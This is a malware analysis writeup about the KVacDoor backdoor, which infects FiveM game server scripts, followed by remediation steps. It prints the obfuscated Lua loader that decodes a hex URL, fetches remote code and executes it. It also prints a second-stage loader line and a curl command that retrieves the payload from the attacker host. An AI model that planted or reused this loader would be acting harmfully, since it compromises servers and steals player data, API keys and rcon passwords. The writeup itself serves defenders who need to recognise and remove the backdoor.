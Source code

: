 ## 1. Introduction
KVacDoor is a really used FiveM and Garry's Mod server manager, boasting features such as 

> **Lua Script**<br>
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**<br>
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

The panel's website: https://kvacdoor.cz

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server.
It is strongly recommended you read cipher's panel breakdown as the infection method kvac uses is almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
## 2. Code analysis and finding the full payload
As we can see, that is almost the same code that is used by the cipher panel backdoor - 
In short the `random_char` table is a link, which gets interpreted by `str_utf8()` which runs as an http request on the server, giving access to it.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the `FXServer/PerformHttpRequest` user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link <br> `https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`

and translate it to text: <br> `https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

and then cURL *this* link, we will get the payload:

[fivem-payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-payload.lua)

beautifying it a bit we get this

[fivem-beautified payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-beautified-payload.lua)


## 3. Payload explanation
The scripts steals player info like licenses, IPs, identifiers, and also reads the server .cfg, extracting API keys and the rcon password if you have one. <br>
It also overrides the `chatMessage` event and grants the resource the infected script was ran from permissions in the server.cfg - and therefore txAdmin. <br>


## 4. Post-infection measures
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the server (e.g. the OS) and only in the former 3 locations.
You should reset any API keys and other sensitive information you have put in your server.cfg (like steam API keys, rcon passwords)
Then you should reinstal; your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.<br>
Unfortunately I can't help if the server's been manually accessed by an adversary after the backdoor was installed, as they could've injected code anywhere and it could be practically impossible to find. Your safest course of action is reinstalling the VPS the server was installed on and using a backup of your server. If you're willing to risk it you can search for suspicious HttpRequest using `grep` or VSCode's Explorer's find but the code can be obfuscated and it's very difficult to find then.
The lesson is - backups are your friend.
